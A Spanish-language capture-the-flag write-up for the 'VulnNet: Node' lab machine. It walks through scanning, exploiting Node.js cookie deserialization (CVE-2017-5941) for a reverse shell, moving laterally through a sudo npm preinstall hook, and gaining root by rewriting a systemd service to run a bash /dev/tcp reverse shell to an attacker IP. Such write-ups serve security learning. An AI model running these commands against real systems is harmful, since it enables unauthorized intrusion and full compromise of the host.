






<div align="center">
    <figure>
        
    </figure>
</div>

<div align="center">

# VulnNet: Node <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [**Insecure Deserialization**, **CVE-2017-5941**, **Blind RCE**, **systemd**, **systemd.timer**, **systemd.service**] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Investigación web](#investigación-web)
- [Shel con www](#shel-con-www)
- [Shell con serv-manage](#shell-con-serv-manage)
- [Shell con root - escalada de privilegios](#shell-con-root---escalada-de-privilegios)


### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.114.153.106 -oG target.log
```

```log
# Nmap 7.95 scan initiated Tue Nov  3 23:25:52 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -oG target.log 10.114.153.106
Host: 10.114.153.106 ()	Status: Up
Host: 10.114.153.106 ()	Ports: 22/open/tcp//ssh///, 8080/open/tcp//http-proxy///	Ignored State: closed (65533)
# Nmap done at Tue Nov  3 23:26:06 2026 -- 1 IP address (1 host up) scanned in 14.42 seconds
```

<br>

```shell
nmap -p22,8080 -sV -sC -vvv 10.114.153.106 -oN openPorts.log
```

```log
# Nmap 7.95 scan initiated Tue Nov  3 23:26:52 2026 as: nmap -p22,8080 -sV -sC -vvv -oN openPorts.log 10.114.153.106
Nmap scan report for vulnet.thm (10.114.153.106)
Host is up, received echo-reply ttl 62 (0.099s latency).
Scanned at 2026-11-03 23:26:52 CET for 11s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:81:4e:5f:fb:d0:dd:a7:71:d4:46:f9:92:cd:01:af (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDZg0fslRYK9O2gzzzntzEKmQ9CrADldofRSlXZqRgd0wOvi3KGGMLdW0H+B9w06lrF2vr344Vl71fn5JG+m6HQIyXvvjD03axhwXj48D6SlqBDbI4Y0sfdWdiUFnzI6WnCl1VudQsQrdnhU5wlFB+hTOKZhnGJtZ7QYfXnAlh+/hH7DiCQmZL9dcrisC9WyblMkjeKFzTkEjkZn5mfGb/SMkyb4FKHTE/B4gMAqTFOmV7vCN+LmVatXhmZcXpAtTWDmJFkSJaGsv4guh4MxPczbinfUMHKLsjt5ti3/L3b3NdUZEfd681EBPMQehKu0/L9HM1qvlc+oinjwEhYfIu20xPch278jL+o2deOghJPM+wn8TUcZ5U/kF0SUXyapnvaVZTG1+E9ZHQtfF8FoLoW6MZ5UES+dmqx4CkssHK45xFNE4Tr5X6LLs2yDsh3gqGRY1evvFF85E6sw2fgIAq5wK1WmyhdJBrb77V5aYpBySBhqKY5JDdrxwxwkzkQGJ8=
|   256 89:43:1a:ed:40:55:4b:48:a8:7d:bd:3c:d1:49:94:3e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKoHgiYnGwCeHSCaParvQDa5SJQMNlAqDXOi+/gkeXHgMicXa1pGxWaByhC3NafZ47ZhtPW2qLIz7MyvO9i/nOI=
|   256 78:a3:66:d0:80:3e:5b:29:f5:2e:a0:78:d5:2a:c1:82 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBSac54uM+/bsfpCAjjCF7NUYn/4oRF7yhtB9dUWbVvV
8080/tcp open  http    syn-ack ttl 62 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  3 23:27:03 2026 -- 1 IP address (1 host up) scanned in 11.00 seconds
```

<br><br>

### Investigación web

Antes de empezar hacemos un escaneo con `whatweb` y extraemos la información de una solicitud al puerto `8080` donde está corriendo ExpressJS. Podemos notar que asigna una cookie de sesión justo al ingresar, con un pequeño script de `javascript` la decodificamos y obtenemos el resultado

<br>

[Resultado del escaneo de whatweb](./assets/http_vulnet.log)

<br>

```javascript
let cookie = 'eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D'

console.log(`\n ${atob(decodeURIComponent(cookie))}`)
```

Eso nos daría:

```json
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

<br>

Lo mantendremos allí por el momento y luego veremos si es útil. Mientras tanto vamos investigando un poco la página web y ver qué podemos obtener. Se puede notar que el código fuente del 'homepage' está en una sola línea, así que hacemos un escaneo con `ffuf` para ver rutas existentes, revelando que la ruta `/login/` es la única disponible, que a su vez contiene un formulario de acceso (login)

<div align="center">
    <figure>
        
    </figure>
    <figcaption>Página de inicio</figcaption>
    <figure>
        
    </figure>
    <figcaption>Formulario de acceso</figcaption>
</div>

<br><br>

```
❯ ffuf -u 'http://vulnet.thm:8080/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://vulnet.thm:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 7599, Words: 706, Lines: 1, Duration: 321ms]
img                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 313ms]
login                   [Status: 200, Size: 2127, Words: 240, Lines: 113, Duration: 337ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 157ms]
Login                   [Status: 200, Size: 2127, Words: 240, Lines: 113, Duration: 246ms]
IMG                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 143ms]
CSS                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 570ms]
Img                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 284ms]
                        [Status: 200, Size: 7599, Words: 706, Lines: 1, Duration: 161ms]
LogIn                   [Status: 200, Size: 2127, Words: 240, Lines: 113, Duration: 89ms]
LOGIN                   [Status: 200, Size: 2127, Words: 240, Lines: 113, Duration: 132ms]
```

<br>

Volviendo un poco al 'homepage' hay algo que me pareció muy curioso, sin haber entregado credenciales o sin haber pasado por el formulario de acceso. Nos dice "**Welcome, Guest**", ¿recuerdan que anteriormente habíamos decodificado las cookies de sesión? Es porque está apuntando a esa cookie para poner el nombre en esa etiqueta del HTML. Así que decido intentar cambiar ese nombre por otro y lo renderiza, a partir de este momento me queda claro que el acceso y la vulnerabilidad será a través de las cookies, simplemente tendríamos que buscar el vector de ataque correcto para ingresar.

<div align="center">
    <figure>
        
    </figure>
    <figcaption>Se cambia el campo "username" de la cookie de sesión</figcaption>
    <figure>
        
    </figure>
    <figcaption>Renderizado del nuevo nombre</figcaption>
</div>

<br><br>

Tras intentar logearme con un usuario aleatorio para ver la respuesta, noté que no estaba enviando los campos. De hecho por el momento no hay ni siquiera un script que gestione los envíos o el form gestionando mediante solicitudes POST.

<div align="center">
    <figure>
        
    </figure>
    <figcaption>No se envía nada incluso con los campos llenos</figcaption>
</div>

<br><br>

Como lo único que está funcionando, o mejor dicho, se está enviando y recibiendo del servidor son las cookies, probamos borrar parte de la cookie en lugar de alterarla y obtenemos justo lo que estabamos buscando un error del servidor intentando serializar las cookies. Estamos ante una **Insecure Deserialization** (CVE-2017-5941)

> [!TIP]
> 
> [Insecure Deserialization PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md)
>

<div align="center">
    <figure>
        
    </figure>
    <figcaption>Error de "unserialize"</figcaption>
</div>

<br>

### Shel con www

Ahora procedemos con las pruebas de concepto (PoC) y ver si funciona, en este caso lo que encontramos es un **Blind RCE** ya que NO veremos reflejados los comandos tales como `whoami`; `id` u otros similares que muestren información pero si viajará el payload por la red. Para la prueba enviaré múltiples `ping` a mi máquina atacante.

<div align="center">
    <figure>
        
    </figure>
    <figcaption>PoC con <strong>ping</strong></figcaption>
</div>

<br><br>

De inmediato enviamos una shell reverse **mkfifo** y la recibimos con éxito.

<div align="center">
    <figure>
        
    </figure>
    <figcaption>Enviando la Shell Reverse a través de Burpsuite</figcaption>
</div>

<br>

```shell
❯ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.114.153.106 34940
sh: 0: can't access tty; job control turned off
$ whoami;id;groups;pwd
www
uid=1001(www) gid=1001(www) groups=1001(www)
www
/home/www/VulnNet-Node
```

<br>

### Shell con serv-manage

Ahora que estamos dentro, listamos usuarios y permisos, encontramos el usuario **serv-manage** y podemos usar `nmp` sin contraseña con ese usuario, en [GTFOBins](https://gtfobins.org/gtfobins/npm/#shell) encontraremos un muy buen payload para esto, tendríamos que crear un directorio para "simular" un nuevo servidor y usar el payload correspondiente (o el que funcione).

<br>

```shell
www@ip-10-114-153-106:~$ grep -i '/bin/.*sh' /etc/passwd
root:x:0:0:root:/root:/bin/bash
serv-manage:x:1000:1000:serv-manage,,,:/home/serv-manage:/bin/bash
www:x:1001:1001:,,,:/home/www:/bin/bash
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
www@ip-10-114-153-106:~$ sudo -l
Matching Defaults entries for www on ip-10-114-153-106:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on ip-10-114-153-106:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

<br>

> [!TIP]
> 
> https://gtfobins.org/gtfobins/npm/#shell
>

<br>

```shell
www@ip-10-112-170-18:~$ mkdir pwned && cd $_
www@ip-10-112-170-18:~/pwned$ echo '{"scripts": {"preinstall": "/bin/sh"}}' >package.json
www@ip-10-112-170-18:~/pwned$ cat package.json 
{"scripts": {"preinstall": "/bin/sh"}}
www@ip-10-112-170-18:~/pwned$ sudo -u serv-manage npm -C . i

> @ preinstall /home/www/pwned
> /bin/sh

$ whoami
serv-manage
$ id;groups;pwd
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
serv-manage
/home/www/pwned
```

<br>

Ya hemos hecho movimiento lateral nos dirigimos al `$HOME` de **serv-manage** y tomamos el primer flag 'user.txt'

```shell
serv-manage@ip-10-112-170-18:~$ ls -la
total 104
drwxr-x--- 17 serv-manage serv-manage 4096 Jan 24  2021 .
drwxr-xr-x  6 root        root        4096 Nov  4 10:09 ..
lrwxrwxrwx  1 root        root           9 Jan 24  2021 .bash_history -> /dev/null
-rwxr-x---  1 serv-manage serv-manage  220 Jan 24  2021 .bash_logout
-rwxr-x---  1 serv-manage serv-manage 3771 Jan 24  2021 .bashrc
drwxr-x---  8 serv-manage serv-manage 4096 Jan 24  2021 .cache
drwxr-x--- 15 serv-manage serv-manage 4096 Nov  4 10:21 .config
drwxr-x---  3 serv-manage serv-manage 4096 Jan 24  2021 .dbus
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Desktop
-rwxr-x---  1 serv-manage serv-manage   26 Jan 24  2021 .dmrc
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Documents
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Downloads
drwxr-x---  3 serv-manage serv-manage 4096 Jan 24  2021 .gnupg
drwxr-x---  3 serv-manage serv-manage 4096 Jan 24  2021 .local
drwxr-x---  5 serv-manage serv-manage 4096 Jan 24  2021 .mozilla
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Music
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Pictures
-rwxr-x---  1 serv-manage serv-manage  807 Jan 24  2021 .profile
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Public
-rwxr-x---  1 serv-manage serv-manage    0 Jan 24  2021 .sudo_as_admin_successful
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Templates
drwxr-x---  4 serv-manage serv-manage 4096 Jan 24  2021 .thumbnails
-rw-------  1 serv-manage serv-manage   38 Jan 24  2021 user.txt
drwxr-x---  2 serv-manage serv-manage 4096 Jan 24  2021 Videos
-rwxr-x---  1 serv-manage serv-manage   57 Jan 24  2021 .Xauthority
-rwxr-x---  1 serv-manage serv-manage   14 Feb 12  2018 .xscreensaver
-rw-------  1 serv-manage serv-manage 2538 Jan 24  2021 .xsession-errors
-rwxr-x---  1 serv-manage serv-manage 2538 Jan 24  2021 .xsession-errors.old
serv-manage@ip-10-112-170-18:~$ cat user.txt 
THM{[REDACTED]}
```

<br>

### Shell con root - escalada de privilegios

En este punto lo primero que intento hacer es listar permisos de super usuario (sudo) y podremos notar que no requiere contraseña.

```shell
serv-manage@ip-10-112-170-18:~$ sudo -l
Matching Defaults entries for serv-manage on ip-10-112-170-18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on ip-10-112-170-18:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

<br>

Entonces tenemos la posibilidad de iniciar y detener un daemon y además reiniciar la configuración de systemctl, por lo que decido buscar esos daemons y estarán en `/etc/systemd/system` en este caso ambos le pertenecen al usuario **serv-manage** así que podremos escribir sobre ellos, el flujo sería: configurar con un payload de escalada el archivo `.service` y detener el servicio, iniciarlo de nuevo y reiniciar todos los daemons, lo que nos queda sería encontrar un payload correcto que nos dé la escalada de privilegios.

Servicios originalmente:

```shell
serv-manage@ip-10-112-170-18:/etc/systemd/system$ cat vulnnet-auto.timer 
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
serv-manage@ip-10-112-170-18:/etc/systemd/system$ cat vulnnet-job.service 
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

<br><br>

Algunas características las cambiaremmos para que nos envíe una shell con root.

```shell
serv-manage@ip-10-112-170-18:/etc/systemd/system$ cat vulnnet-auto.timer; echo -e "\n\n"; cat vulnnet-job.service 
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target


[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=exec
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.137.54/4445 0>&1'

[Install]
WantedBy=multi-user.target
```

<br>

Un poco de teoría:

> [!NOTE]
> 
> Un proceso lanzado con systemd no tiene una TTY. `/bin/bash` solamente no bastará sin un TTY ni stdin conectado arranca pero no tendrá nada que leer y terminará de inmediato
>

<br>

```
serv-manage@ip-10-112-170-18:/etc/systemd/system$ sudo /bin/systemctl daemon-reload 
serv-manage@ip-10-112-170-18:/etc/systemd/system$ sudo /bin/systemctl start vulnnet-auto.timer
```

<br>

> [!IMPORTANT]
> Nótese que el `systemd.timer` tiene una propiedad llamada `OnBootSec=` la cual define el tiempo relativo al encendido de la máquina, va de la mano con la propiedad `OnCalendar=` la cual está establecida cada 30 minutos.
>
> La propiedad `OnBootSec=` puede ser reemplazada por `OnActiveSec=` (es recomendable) y se establece unos segundos, esta propiedad define el tiempo relativo al momento que el timer en sí mismo es activado. En caso de ser aplicada, se puede (si es de su preferencia) comentar o eliminar la propiedad `OnCalendar=`, sin embargo, dejarla también podría ayudar ya que si ocurre algo (error de syntax, systemd no recarga bien, etc.) con `OnActiveSec=` la propiedad `OnCalendar=` se seguiría ejecutando cada media hora.
>
> En mi caso la dejé tal como estaba ya que tenía que esperar menos de 1 minuto porque coincidió la hora con la ejecución del *daemon* de lo contrario la hubiese cambiado
>

<br>

Somos **root**

```
root@ip-10-112-170-18:/# whoami;id;groups;pwd
whoami;id;groups;pwd
root
uid=0(root) gid=0(root) groups=0(root)
root
/
root@ip-10-112-170-18:/# cd /root
cd /root
root@ip-10-112-170-18:/root# ls -la
ls -la
total 104
drwx------ 19 root root 4096 Jul  5  2025 .
drwxr-xr-x 24 root root 4096 Nov  4 10:09 ..
lrwxrwxrwx  1 root root    9 Jan 24  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  6 root root 4096 Jul  5  2025 .cache
drwx------ 12 root root 4096 Mar 21  2021 .config
drwx------  3 root root 4096 Mar 21  2021 .dbus
drwx------  2 root root 4096 Mar 21  2021 Desktop
-rw-r--r--  1 root root   41 Mar 21  2021 .dmrc
drwxr-xr-x  2 root root 4096 Mar 21  2021 Documents
drwxr-xr-x  3 root root 4096 Mar 21  2021 Downloads
drwx------  3 root root 4096 Mar 21  2021 .gnupg
drwxr-xr-x  3 root root 4096 Jan 24  2021 .local
drwx------  5 root root 4096 Mar 21  2021 .mozilla
drwxr-xr-x  2 root root 4096 Mar 21  2021 Music
drwxr-xr-x  4 root root 4096 Jan 24  2021 .npm
drwxr-xr-x  2 root root 4096 Mar 21  2021 Pictures
drwxr-xr-x  5 root root 4096 Jan 24  2021 .pm2
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwxr-xr-x  2 root root 4096 Mar 21  2021 Public
-rw-------  1 root root   38 Jan 24  2021 root.txt
drwx------  2 root root 4096 Apr 26  2025 .ssh
drwxr-xr-x  2 root root 4096 Mar 21  2021 Templates
drwxr-xr-x  2 root root 4096 Mar 21  2021 Videos
-rw-------  1 root root    0 Jul  5  2025 .viminfo
-rw-------  1 root root   57 Mar 21  2021 .Xauthority
-rw-r--r--  1 root root   14 Feb 12  2018 .xscreensaver
-rw-------  1 root root 2386 Mar 21  2021 .xsession-errors
root@ip-10-112-170-18:/root# cat root.txt
cat root.txt

THM{[REDACTED]}
```

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>